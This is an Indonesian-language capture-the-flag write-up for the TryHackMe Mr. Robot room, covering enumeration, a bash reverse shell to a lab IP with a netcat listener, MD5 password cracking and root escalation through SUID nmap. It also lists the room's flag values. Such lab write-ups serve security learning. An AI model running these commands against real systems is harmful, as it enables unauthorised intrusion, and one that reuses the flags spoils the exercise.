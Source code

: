 #  Mr. Robot CTF – TryHackMe

**Nama:** Jonathan Jethro  
**Tanggal:** 4 Mei 2025  
**Link Room:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

---

## Pendahuluan

Mr. Robot adalah CTF dari TryHackMe yang terinspirasi dari serial TV populer.  
Tujuan utama adalah mendapatkan ketiga flag tersembunyi melalui tahapan:

- Web enumeration  
- Eksploitasi login  
- Privilege escalation

---

## Enumerasi

### Nmap Scan

```bash
nmap -sC -sV -oA scans/initial 10.10.180.146
```
Port terbuka:

80 (HTTP)

443 (HTTPS)

Situs menampilkan tema Mr. Robot.

robots.txt
```bash
Copy
Edit
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Ditemukan wordlist fsocity.dic dan flag pertama.

## Eksploitasi Login
Setelah brute-force menggunakan fsocity.dic, ditemukan:

Username: elliot

Namun login berhasil dengan metode:

Menemukan halaman vulnerable upload.

Mengirim reverse shell (bash payload).

Mendengarkan dengan netcat.

```
# Reverse shell payload
bash -i >& /dev/tcp/10.9.0.247/4444 0>&1

# Listener (attacker)
nc -lvnp 4444
```
Shell berhasil dengan user: daemon.

## Privilege Escalation ke robot
Ditemukan file password:

```
cat /home/robot/password.raw-md5
```
Isi:
```
c3fcd3d76192e4007dfb496cca67e13b
```
Didekripsi menggunakan CrackStation:

Password: abcdefghijklmnopqrstuvwxyz

Login:
```
su robot
```
Berhasil menjadi user robot, ditemukan flag kedua.

## Privilege Escalation ke Root
User robot tidak punya akses sudo.
Lalu dicari file SUID:
```
find / -perm -4000 -type f 2>/dev/null
```
Ditemukan:
```
/usr/local/bin/nmap
```
Masuk ke mode interaktif:
```
/usr/local/bin/nmap --interactive
nmap> !sh
```
Berhasil mendapatkan shell sebagai root dan mengambil flag ketiga.

## Flag Capture
Flag	Lokasi	Isi
1	/key-1-of-3.txt	073403c8a58a1f80d943455fb30724b9
2	/home/robot/key-2-of-3.txt	822c73956184f694993bede3eb39f959
3	/root/key-3-of-3.txt	04787ddef27c3dee1ee161b21670b4e4

## Kesimpulan
CTF ini mengajarkan teknik penting dalam pentesting:

Enumerasi file tersembunyi dan wordlist

Reverse shell manual

Cracking password MD5

Privilege escalation via SUID binary (nmap --interactive)

## Screenshots
Lihat folder screenshots/ untuk gambar pendukung flag.

## Versi PDF
Tersedia juga dalam format PDF untuk dilihat secara offline.
